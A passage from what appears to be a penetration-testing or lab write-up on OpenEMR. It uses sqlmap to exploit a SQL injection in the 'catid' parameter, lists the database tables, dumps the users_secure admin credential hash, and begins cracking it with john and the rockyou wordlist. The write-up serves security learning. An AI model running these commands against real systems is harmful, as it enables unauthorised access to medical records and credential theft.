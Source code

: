 We have successfully identified multiple exploitable injections using the `catid` parameter.

#### Dumping the database

Now that we have successfully identified the injection, let us start exploiting by enumerating all tables of the database.

```bash
root@darkness:~# sqlmap -r sqli.req --risk 3 --level 5 --tables --batch
Database: openemr                                          
[234 tables]                                               
+---------------------------------------+
| version                               |
| addresses                             |
[...]
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
[...]
```

The `openemr` database contains over 230 tables, however looking through the table-names only a couple seem interesting. The `users` and `users_secure` table seems to be promising. Let us dump these two tables in an effort to gather credentials.

```bash
root@darkness:~# sqlmap -r sqli.req --risk 3 --level 5 -D openemr -T users_secure --dump --batch
Database: openemr
Table: users_secure
[1 entry]
+----+------+----------+----------+-------------+---------------+---------------+-------------------+-------------------+
| id | salt | password | username | last_update | salt_history1 | salt_history2 | password_history1 | password_history2 |
+----+------+----------+----------+-------------+---------------+---------------+-------------------+-------------------+
| 1  | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | openemr_admin | 2019-11-21 06:38:40 | NULL | NULL | NULL | NULL |
+----+------+----------+----------+-------------+---------------+---------------+-------------------+-------------------+
```

Dumping the `users_secure` table, we get the hash of the `openemr_admin` user.

#### Cracking the hash

Let us use john to crack the hash.

```bash
root@darkness:~# cat hash.txt 
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
root@darkness:~# john hash.txt -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
```
